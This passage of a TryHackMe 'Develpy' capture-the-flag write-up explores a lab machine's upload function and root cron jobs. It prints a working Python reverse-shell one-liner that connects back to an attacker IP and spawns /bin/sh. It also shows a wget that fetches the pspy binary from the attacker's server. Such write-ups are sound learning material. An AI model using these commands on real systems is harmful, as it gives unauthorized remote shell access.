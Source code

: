 Looks like it's a HTTP service! Let's go to `http://localhost:8001` to see what is it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Develpy/images/a2.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Develpy/images/a3.png)

A website's backend written in `python`... Maybe `django` or `flask`? Anyways, it has a upload function! Maybe we can upload a python reverse shell?

**Create a python reverse shell:** (From [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))

**revshell.py:**
```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.61.134",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

**Upload it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Develpy/images/a4.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Develpy/images/a5.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Develpy/images/a6.png)

Wait. Not found? 

Hmm... Take a step back. Let's enumerate the system again.

**Cronjob:**
```
# m h dom mon dow user	command
[...]
*  *	* * *	king	cd /home/king/ && bash run.sh
*  *	* * *	root	cd /home/king/ && bash root.sh
*  *	* * *	root	cd /root/company && bash run.sh
```

As we can see, there are 3 cronjobs are running.

Also, we can find that in `king`'s home directory, there is a Bash script called `root.sh`:

**root.sh:**
```bash
python /root/company/media/*.py
```

Which is our uploaded file's directory, and the cronjob will run any python script in that directory.

We can confirm that via [`pspy`](https://github.com/DominicBreuker/pspy):

- Transfer the `pspy` binary:

```
┌──(root💀siunam)-[/opt/pspy]
└─# python3 -m http.server 80

king@ubuntu:~$ wget http://10.18.61.134/pspy64 -O /tmp/pspy;chmod +x /tmp/pspy
```
